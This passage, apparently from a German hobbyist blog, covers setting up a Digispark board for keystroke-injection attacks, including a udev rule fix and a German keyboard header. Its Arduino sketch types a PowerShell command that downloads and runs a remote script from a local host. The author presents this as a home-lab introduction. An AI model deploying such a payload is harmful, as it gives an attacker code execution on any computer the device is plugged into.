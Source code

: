 
Fehler beim Uploden:
{{< codeWide >}}
micronucleus: library/micronucleus_lib.c:66: micronucleus_connect: Assertion `res >= 4' failed.
Aborted
{{< /codeWide >}}


Hierfür wieder die USB Rules anpassen mit: `sudo vim /etc/udev/rules.d/digispark.rules`

Und folgendes eintragen:

{{< codeWide >}}
SUBSYSTEM=="usb", ATTR{idVendor}=="16d0", ATTR{idProduct}=="0753", MODE="0660", GROUP="dialout"
{{< /codeWide >}}

Und natürlich hat es bei mir nicht funktioniert, weil in meinem Windows eine deutsche Tastatur ausgewählt ist.


Hab die [DigiKeyboardDe.h](https://raw.githubusercontent.com/adnan-alhomssi/DigistumpArduinoDe/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboardDe.h) in `/home/<user>/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/` eingefügt.

Und dann den Code angepasst:
{{< codeWide >}}
#include "DigiKeyboardDe.h"
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboardDe.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {
    /*Stops the digispark from running the scipt again*/
  }
}
{{< /codeWide >}}


Leider sind sie sehr unzuverlässig. Und ich würde sie nicht für echte Angriffe/Aufgaben verwenden.  Sie geben jedoch einen einfachen Einstieg in Keystroke-Injection Attacken.


### WiFi Duck

![WiFi Duck Board](img/wifi_duck.jpg)
